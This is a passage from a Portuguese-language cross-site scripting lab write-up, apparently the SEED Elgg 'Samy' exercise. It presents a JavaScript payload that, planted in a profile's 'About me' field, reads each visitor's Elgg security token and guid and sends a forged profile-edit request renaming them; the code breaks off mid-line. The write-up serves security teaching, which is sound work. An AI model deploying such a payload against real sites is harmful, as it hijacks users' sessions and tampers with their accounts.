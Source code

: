 ![Cross-Site-Scripting-Attack-Images/print9.png](Cross-Site-Scripting-Attack-Images/print9.png)

Quando adicionamos o código abaixo no campo *About me* no perfil Samy todos os usuário que entrarem no perfil terão seus nome alterados para "FUI ATACADO", pois este é o parâmetro que estamos enviando na tag name.

```jsx
<script type="text/javascript">
window.onload = function(){
//JavaScript code to access user name, user guid, Time Stamp __elgg_ts
//and Security Token __elgg_token
	var userName=elgg.session.user.name;
	var guid="&guid="+elgg.session.user.guid;
	var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
	var token="&__elgg_token="+elgg.security.token.__elgg_token;
	var name="&name=FUI ATACADO";

	//Construct the content of your url.
	var content= token + ts + name + guid;
	var sendurl= "http://www.xsslabelgg.com/action/profile/edit";
	var samyGuid=47;

	if(elgg.session.user.guid!=samyGuid) //1
	{
	//Create and send Ajax request to modify profile
	var Ajax=null;
	Ajax=new XMLHttpRequest();
	Ajax.open("POST",sendurl,true);
	Ajax.setRequestHeader("Host","www.xsslabelgg.com");
	Ajax.setRequestHeader("Content-Type",
```